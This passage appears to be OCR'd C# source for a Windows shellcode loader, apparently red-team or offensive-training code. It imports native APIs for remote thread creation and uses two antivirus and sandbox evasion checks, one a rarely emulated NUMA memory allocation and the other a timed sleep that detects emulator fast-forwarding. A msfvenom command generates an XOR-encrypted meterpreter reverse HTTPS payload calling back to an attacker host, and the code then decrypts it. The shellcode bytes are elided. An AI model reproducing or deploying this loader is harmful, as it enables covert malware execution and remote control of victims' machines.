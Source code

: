 ```csharp
        static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        // BEGIN DEBUG (imports)
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
        static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);

        static bool CompareByteArray(byte[] b1, byte[] b2)
        {
            return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr)b1.Length) == 0;
        }
        // END DEBUG

        static void Main(string[] args)
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }
```